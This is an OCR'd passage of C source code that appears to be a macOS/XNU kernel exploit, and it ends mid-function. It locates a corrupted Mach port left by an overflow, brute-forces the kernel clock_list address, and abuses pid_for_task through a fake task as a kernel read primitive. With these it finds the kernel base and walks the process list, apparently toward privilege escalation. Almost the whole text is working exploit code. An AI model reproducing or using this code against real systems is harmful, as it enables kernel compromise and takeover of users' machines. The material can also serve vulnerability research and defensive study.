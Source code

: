 	for(int i = 0; i < USE_PORT_END; i++){
		send_msg.msg_head.msgh_local_port = port_list[i];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_RCV_MSG | MACH_MSG_OPTION_NONE, 0, sizeof(struct ool_send_msg), port_list[i], MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		for(int k = 0; k < send_msg.msg_body.msgh_descriptor_count; k++){ // traversing ool descriptors
			mach_port_t* tmp_port = send_msg.msg_ool_ports[k].address;
			if(tmp_port[0] != MACH_PORT_DEAD && tmp_port[0] != NULL){ // is Manipulated? (compare 8 bytes is enough. cuz of 8 bytes overflow)
				printf("[+] Found manipulated port! %dth port : %dth descriptor => %llx\n", i, k, tmp_port[0]);
				return tmp_port[0];
			}
		}

	}

	printf("[-] Error in Find Manipulated Port\n");
	exit(1);
}

uint64_t get_clock_list_addr(uint64_t fake_port, mach_port_t* manipulated_port){
	for(uint64_t guess_clock_addr = 0xffffff8000200000; guess_clock_addr < 0xffffff80F0200000; guess_clock_addr++){
		*(uint64_t *)(fake_port + TASK_GAP_IN_IPC_OBJ) = guess_clock_addr; // Traverse address
		*(uint64_t *)(fake_port + 0xa0) = 0xff; 

		if(clock_sleep_trap(manipulated_port, 0, 0, 0, 0) == KERN_SUCCESS){
			printf("[+] found clock_list addr : %llx\n", guess_clock_addr);
			return (guess_clock_addr);
		}
	}
	printf("[-] Find clock_list addr failed.\n");
	exit(1);
}

uint64_t get_kernel_addr(uint64_t fake_port, void* fake_task, uint64_t clock_list_addr, mach_port_t* manipulated_port){
	*(uint64_t*) (fake_port + TASK_GAP_IN_IPC_OBJ) = fake_task;
    *(uint64_t*) (fake_port + 0xa0) = 0xff; 
    *(uint64_t*) (fake_task + 0x10) = 0x01;  

    clock_list_addr &= ~(0x3FFF);

    for(uint64_t current_addr = clock_list_addr; current_addr > 0xffffff8000200000; current_addr-=0x4000) {
    	int32_t kernel_data = 0;
    	*(uint64_t*) (fake_task + TASK_INFO_GAP) = current_addr - 0x10;
    	pid_for_task(manipulated_port, &kernel_data);
    	if (kernel_data == 0xfeedfacf) {
    		printf("[+] Found kernel_text addr : %llx\n", current_addr);
    		return current_addr;
    	}
    }
}

uint64_t get_proc_addr(uint64_t pid, uint64_t kernel_addr, void* fake_task, mach_port_t* manipulated_port){
	uint64_t allproc_real_addr = 0xffffff8000ABB490 - 0xffffff8000200000 + kernel_addr;
	
	uint64_t pCurrent = allproc_real_addr;
	uint64_t pNext = pCurrent;
	while (pCurrent != NULL) {
		int nPID = 0;    
		*(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent;
		pid_for_task(manipulated_port, (int32_t*)&nPID);
		if (nPID == pid) {
			return pCurrent;
		}
		else{